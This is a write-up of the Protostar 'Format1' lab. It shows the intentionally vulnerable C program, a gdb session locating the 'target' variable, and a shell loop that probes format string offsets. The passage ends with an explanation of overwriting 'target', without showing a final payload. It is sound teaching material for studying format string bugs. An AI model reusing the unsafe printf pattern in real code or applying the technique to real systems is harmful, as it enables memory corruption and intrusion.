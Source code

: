 ## Format1
In [Format1](http://www.exploit-exercises.com/protostar/format1) we are given the following vulnerable code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);

  if(target) {
    printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

We need to find the **target** address:

```lang-bash line-numbers 
user@protostar:~$ gdb -q /opt/protostar/bin/format1
Reading symbols from /opt/protostar/bin/format1...done.
(gdb) b main
Breakpoint 1 at 0x8048425: file format1/format1.c, line 19.
(gdb) r aaaa
Starting program: /opt/protostar/bin/format1 aaaa

Breakpoint 1, main (argc=2, argv=0xbffff844) at format1/format1.c:19
19	format1/format1.c: No such file or directory.
	in format1/format1.c
(gdb) p &target
$2 = (int *) 0x8049638
```

We also need to find how far is going to be our string argument. We will be using the format string to read the memory till we find our string:

```lang-bash line-numbers 
user@protostar:~$ for i in {1..200};do echo "trying offset $i - `/opt/protostar/bin/format1 DDDD%$i\\$08x`"; done | grep DDDD44444444
trying offset 133 - DDDD44444444
```

Ok, so now, we will be writing an "unknown" value (number of characters written so far) into the address pointed by the 133 argument which turns out to be our string and the first 4 bytes are pointing the the address of **target** in the BSS section. So will be overwritting **target**
